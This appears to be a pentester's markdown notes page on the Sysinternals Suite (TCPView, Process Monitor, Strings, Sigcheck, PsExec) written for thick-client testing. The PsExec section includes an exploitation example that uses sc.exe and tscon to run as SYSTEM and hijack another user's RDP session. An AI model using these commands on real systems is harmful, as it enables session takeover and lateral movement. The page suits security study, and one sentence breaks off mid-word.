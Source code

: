 ```yaml
---
title: SysInternals Suite
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - thick applications
---
```

# SysInternals Suite

To download: [https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite](https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite).

 The Windows Sysinternals website was created in 1996 by [Mark Russinovich](https://en.wikipedia.org/wiki/Mark_Russinovich) and [Bryce Cogswell](https://en-academic.com/dic.nsf/enwiki/2358707) to offers technical resources and utilities to manage, diagnose, troubleshoot, and monitor a Microsoft Windows environment. Microsoft acquired Windows Sysinternals and its assets on July 18, 2006.
 
## TPCView

Application that allows you to see incoming and outcoming network connections associated to their application.

In the course "Mastering Thick Application Pentesting" this is really helpfil to check the conections of the vulnerable applicaiton DVTA.


## Process Monitor

This tools helps us understand File System changes and what is being accessed in the file system.

## Strings

It's similar to the command "strings" in bash. It displays all the human readable strings in a binary.  Usage:

```ps
strings.exe <binaryFile>
```


## Sigcheck

Sigcheck is a command-line utility that shows file version number, timestamp information, and digital signature details, including certificate chains.

```powershell

.\sigcheck.exe -nobanner -s -e <folder/binaryFile>
# -s: Search recursively, useful for thick client apps with lot of folders and subfolders
# -e: Scan executable images only (regardless of their extension)
# -nobanner:	Do not display the startup banner and copyright message.
```


## PsExec

[PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) is a tool that lets us execute processes on other systems, complete with full interactivity for console applications, without having to install client software manually. It works because it has a Windows service image inside of its executable. 

It takes this service and deploys it to the admin$ share (by default) on the remote machine. It then uses the DCE/RPC interface over SMB to access the Windows Service Control Manager API. Next, it starts the PSExec service on the remote machine. The PSExec service then creates a [named pipe](https://docs.microsoft.com/en-us/windows/win32/ipc/named-pipes) that can send commands to the system.

### PsExec for escalating privileges: This method no longer works on Server 2019

PsExec is particularly effective for privilege escalation because it can create and run processes with SYSTEM privileges, even if executed from an Administrator account. Here’s how this process typically works:

- **Command Execution as SYSTEM**: When using PsExec with the `-s` flag (e.g., `psexec -s cmd.exe`), it launches a process that runs with SYSTEM privileges instead of the Administrator privileges of the account running it.
- **How It Works Internally**: PsExec does this by leveraging Windows services, which typically run as SYSTEM by default. PsExec creates a temporary service on the machine to launch a command or program with SYSTEM privileges, then removes the service after completion.
- **Escalation Path**: Once PsExec launches a command prompt or other executable with SYSTEM privileges, the user essentially has unrestricted access. This enables them to perform actions that would other


**Example of an exploitation: creating a service that will run as SYSTEM**

```cmd-session
query user
```

Results:

```
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM
```


```cmd-session
sc.exe create Nameofservice binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
```

**Explanation**: Create a Windows service that, by default, run as `Local System` and will execute any binary with `SYSTEM` privileges. We use [Microsoft sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) binary. First, we specify the service name (`Nameofservice`) and the `binpath`, which is the command we want to execute. Once we run the following command, a service named `Nameofservice` will be created.

Initiate the service:

```
net start Nameofservice
```

Once the service is started, a new terminal with the `lewen` user session will appear. With this new account, we can attempt to discover what kind of privileges it has on the network, and maybe we'll get lucky, and the user is a member of the Help Desk group with admin rights to many hosts or even a Domain Admin.